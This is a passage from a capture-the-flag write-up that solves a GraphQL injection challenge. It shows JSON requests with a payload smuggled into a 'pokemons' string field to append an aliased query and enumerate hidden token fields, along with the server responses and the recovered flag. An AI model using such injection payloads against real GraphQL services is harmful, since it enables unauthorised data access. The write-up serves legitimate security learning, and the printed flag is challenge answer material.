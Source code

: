 ```json
{
  "pokemons": [
    "anything\"){id},injected_query:digimOwOUwURawrn38408375018458385023841203489738570123(passcode:\"dish-percent-drop-brief\",name:\"Flagmon\"){tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b}}#"
  ],
  "compares": []
}
```

**Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b": "Flag Not Here"
    }
  }
}
```

Nope.

After trying all those `token` fields, we can find that **the last `token` field** contains the flag:

```json
{
  "pokemons": [
    "anything\"){id},injected_query:digimOwOUwURawrn38408375018458385023841203489738570123(passcode:\"dish-percent-drop-brief\",name:\"Flagmon\"){tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e}}#"
  ],
  "compares": []
}
```

**Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e": "cuhk24ctf{WowoW_u_know_gwAphQL_pitty_well_Want_to_say'Congratuwulations_\"hacker\"!'-\\_/-_for_finding_Fa1gm0n}"
    }
  }
}
```

> Note: Remember to unescape the JSON string. [CyberChef](https://gchq.github.io/CyberChef/#recipe=Unescape_string()&input=Y3VoazI0Y3Rme1dvd29XX3Vfa25vd19nd0FwaFFMX3BpdHR5X3dlbGxfV2FudF90b19zYXknQ29uZ3JhdHV3dWxhdGlvbnNfXCJoYWNrZXJcIiEnLVxcXy8tX2Zvcl9maW5kaW5nX0ZhMWdtMG59) can help you for that.

- **Flag: `cuhk24ctf{WowoW_u_know_gwAphQL_pitty_well_Want_to_say'Congratuwulations_"hacker"!'-\_/-_for_finding_Fa1gm0n}`**

## Conclusion

What we've learned:

1. GraphQL injection and enumeration